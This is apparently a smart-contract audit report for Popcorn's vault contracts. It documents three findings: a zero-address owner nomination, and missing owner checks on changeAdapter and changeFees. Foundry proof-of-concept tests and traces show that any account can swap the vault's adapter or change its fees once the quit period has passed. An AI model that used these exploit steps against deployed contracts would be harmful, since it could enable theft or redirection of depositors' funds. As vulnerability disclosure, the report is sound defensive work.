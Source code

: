 Finding #1
Should not nominate new admin proxy to address zero, add this test to `test.vault.VaultController.t.sol` to verify the finding:
```
   function test__nominateZeroAddressNewAdminProxyOwner() public {
        controller.nominateNewAdminProxyOwner(address(0));
        assertEq(adminProxy.nominatedOwner(), address(0));
    }
```

 Test output:
```
 ~/latest/2023-01-popcorn │ on main !1 ?1  forge test --match-path test/vault/VaultController.t.sol --match-test "test__nominateZeroAddressNewAdminProxyOwner" -vvvv                              ✔ │ took 8s │ at 23:48:33 
[⠒] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/VaultController.t.sol:VaultControllerTest
[PASS] test__nominateZeroAddressNewAdminProxyOwner() (gas: 21579)
Traces:
  [21579] VaultControllerTest::test__nominateZeroAddressNewAdminProxyOwner() 
    ├─ [13287] VaultController::nominateNewAdminProxyOwner(0x0000000000000000000000000000000000000000) 
    │   ├─ [5766] AdminProxy::nominateNewOwner(0x0000000000000000000000000000000000000000) 
    │   │   ├─ emit OwnerNominated(newOwner: 0x0000000000000000000000000000000000000000)
    │   │   └─ ← ()
    │   └─ ← ()
    ├─ [359] AdminProxy::nominatedOwner() [staticcall]
    │   └─ ← 0x0000000000000000000000000000000000000000
    └─ ← ()

Test result: ok. 1 passed; 0 failed; finished in 7.64ms
```





Finding #2
Affected code:
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/Vault.sol#L594
https://github.com/code-423n4/2023-01-popcorn/blob/main/test/vault/Vault.t.sol#L863

Missing `onlyOwner` modifier on `src.vault.Vault.changeAdapter` allows anyone to set a new Adapter for this Vault after the quit period has passed. The existing test in `test.vault.Vault.testFail__changeAdapter_NonOwner` is incorrectly implemented to verify the issue and fails on `NotPassedQuitPeriod` rather than properly catching the error of lack of ownership, e.g.
```
~/se/currents/latest/2023-01-popcorn │ on main !2 ?1  forge test --match-path test/vault/Vault.t.sol --match-test "testFail__changeAdapter_NonOwner" -vvvv

[⠊] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/Vault.t.sol:VaultTest
[PASS] testFail__changeAdapter_NonOwner() (gas: 32770)
Traces:
  [32770] VaultTest::testFail__changeAdapter_NonOwner() 
    ├─ [0] VM::prank(alice: [0x000000000000000000000000000000000000ABcD]) 
    │   └─ ← ()
    ├─ [22509] vault::changeAdapter() 
    │   ├─ [2640] MockERC4626::balanceOf(vault: [0xF62849F9A0B5Bf2913b396098F7c7019b51A820a]) [staticcall]
    │   │   └─ ← 0
    │   ├─ [2523] MockERC4626::convertToAssets(0) [staticcall]
    │   │   └─ ← 0
    │   └─ ← "NotPassedQuitPeriod(259200)"
    └─ ← "NotPassedQuitPeriod(259200)"

Test result: ok. 1 passed; 0 failed; finished in 3.50ms
```
PoC:
```  function test__anyoneCanChangeAdapterAfterNewWasProposed() public {
    // Missing onlyOwner modifier allows anyone to Set a new Adapter for this Vault after the quit period has passed.
    MockERC4626 newAdapter = new MockERC4626(IERC20(address(asset)), "Mock Token Vault", "vwTKN");
    uint256 depositAmount = 1 ether;

    // Deposit funds for testing
    asset.mint(alice, depositAmount);
    vm.startPrank(alice);
    asset.approve(address(vault), depositAmount);
    vault.deposit(depositAmount, alice);
    vm.stopPrank();

    // Increase assets in asset Adapter to check hwm and assetCheckpoint later
    asset.mint(address(adapter), depositAmount);
    vault.takeManagementAndPerformanceFees();

    // Preparation to change the adapter
    vault.proposeAdapter(IERC4626(address(newAdapter)));

    vm.warp(block.timestamp + 3 days);

    vm.expectEmit(false, false, false, true, address(vault));
    emit ChangedAdapter(IERC4626(address(adapter)), IERC4626(address(newAdapter)));
    
    vm.startPrank(bob);
    vault.changeAdapter();
    vm.stopPrank();

  }
```

Recommendation: add `onlyOwner` modifier to `changeAdapter` function and refactor `testFail__changeAdapter_NonOwner`




Finding #3 
Affected code:
https://github.com/code-423n4/2023-01-popcorn/blob/main/src/vault/Vault.sol#L540-L546
https://github.com/code-423n4/2023-01-popcorn/blob/main/test/vault/Vault.t.sol#L757-L760

Missing `onlyOwner` modifier on `src.vault.Vault.changeFees` allows anyone change fees to the previously proposed fees after the quit period has passed. The existing test in `test.vault.Vault.testFail__changeFees_NonOwner ` is incorrectly implemented to verify the issue and fails on `NotPassedQuitPeriod` rather than properly catching the error of lack of ownership, e.g.
```
 ~/se/currents/latest/2023-01-popcorn │ on main !2 ?1  forge test --match-path test/vault/Vault.t.sol --match-test "testFail__changeFees_NonOwner" -vvvv
[⠊] Compiling...
No files changed, compilation skipped

Running 1 test for test/vault/Vault.t.sol:VaultTest
[PASS] testFail__changeFees_NonOwner() (gas: 14996)
Traces:
  [14996] VaultTest::testFail__changeFees_NonOwner() 
    ├─ [0] VM::prank(alice: [0x000000000000000000000000000000000000ABcD]) 
    │   └─ ← ()
    ├─ [4757] vault::changeFees() 
    │   └─ ← "NotPassedQuitPeriod(259200)"
    └─ ← "NotPassedQuitPeriod(259200)"

Test result: ok. 1 passed; 0 failed; finished in 5.01ms
```
PoC:
```
    function test__anyoneCanChangeFees() public {
    VaultFees memory newVaultFees = VaultFees({ deposit: 1, withdrawal: 1, management: 1, performance: 1 });
    vault.proposeFees(newVaultFees);

    vm.warp(block.timestamp + 3 days);

    vm.expectEmit(false, false, false, true, address(vault));
    emit ChangedFees(VaultFees({ deposit: 0, withdrawal: 0, management: 0, performance: 0 }), newVaultFees);
    
    vm.prank(alice);
    vault.changeFees();
    vm.stopPrank();
  }
```

Recommendation: add `onlyOwner` modifier to `changeFees` function and refactor `testFail__changeFees_NonOwner`

